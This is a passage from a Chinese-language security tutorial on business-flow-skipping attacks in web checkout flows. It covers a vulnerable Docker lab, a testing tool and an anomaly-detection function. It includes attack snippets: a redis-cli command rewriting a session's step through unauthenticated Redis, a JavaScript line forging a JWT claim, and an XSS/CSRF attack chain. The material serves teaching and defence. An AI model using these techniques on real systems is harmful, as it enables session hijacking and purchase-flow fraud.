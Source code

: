 2. **分布式会话劫持**：
```bash
# 利用Redis未授权访问修改会话状态
redis-cli -h 10.2.3.4 SET session:user123 '{"step":5}'
```

3. **元数据注入**：
```javascript
// 篡改JWT的step声明
let forgedJWT = originalJWT.replace(/"step":2/, '"step":5');
```

### 2.2 混合攻击模式
结合业务流程跳跃与其他漏洞进行深度利用：
```
1. 通过XSS窃取流程令牌
2. 使用CSRF触发状态跳转
3. 利用业务逻辑漏洞绕过最终验证
```

## 三、实验环境搭建
### 3.1 脆弱系统构建（Docker）
```yaml
# docker-compose.yml
services:
  vulnerable_app:
    image: vuln_shop:1.2
    ports:
      - "8080:8080"
  redis:
    image: redis:alpine
    ports:
      - "6379:6379"
```

### 3.2 攻击模拟工具集
```bash
# 自动化流程跳跃检测工具
git clone https://github.com/flowbuster/flowjumper.git
pip install -r requirements.txt

# 常用测试命令
python flowjumper.py -u http://target/checkout --param-step step
```

## 四、检测与监控方案
### 4.1 实时检测引擎
基于规则引擎+AI模型的混合检测系统：
```python
# 异常步骤检测算法
def detect_anomaly(current_step, history):
    # 马尔可夫链状态转移概率分析
    transition_prob = get_transition_prob(history[-1], current_step)
    if transition_prob < THRESHOLD:
        return True
    
    # 时间维度分析
    time_diff = current_step.time - history[-1].time
    if time_diff < MIN_STEP_TIME:
        return True
    
    return False
```
